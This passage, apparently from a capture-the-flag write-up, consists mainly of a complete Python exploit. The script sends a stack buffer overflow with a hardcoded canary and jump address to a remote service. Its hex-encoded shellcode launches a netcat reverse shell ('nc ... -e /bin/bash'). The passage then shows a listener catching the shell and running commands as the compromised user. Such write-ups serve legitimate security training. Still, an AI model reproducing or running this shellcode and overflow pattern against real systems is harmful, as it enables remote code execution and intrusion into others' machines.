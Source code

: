 Here is my final exploit:
{% codeblock lang:python %}
#!/usr/bin/env python
import socket
import time

host = '54.233.105.81'
port = 4242

# Initial connection
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

# Send X and wait
print s.recv(1)
s.send('X')
time.sleep(3)

# Variables for buffer
a = "\x41" * 104
canary = "\xe4\xff\xff\xe4"
b = "\x42\x42\x42\x42"
jmp = "\x6b\x93\x04\x08"

# Adding Payload
payload = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73"
payload += "\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1f\x00\x00"
payload += "\x00\x6e\x63\x20\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x20"
payload += "\x36\x36\x36\x36\x20\x2d\x65\x20\x2f\x62\x69\x6e\x2f\x62"
payload += "\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80"

# Craft and send
buffer = a + canary + b + jmp + payload
s.send(buffer)
s.close()
{% endcodeblock %}
I started up a netcat listener on my server to catch the connection:

{% codeblock lang:bash %}
mike@foo:~$ nc -nlvp 3535
Listening on [0.0.0.0] (family 0, port 3535)
Connection from [54.233.105.81] port 3535 [tcp/\*] accepted (family 2, sport 45173)
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
hostname
sg5
{% endcodeblock %}
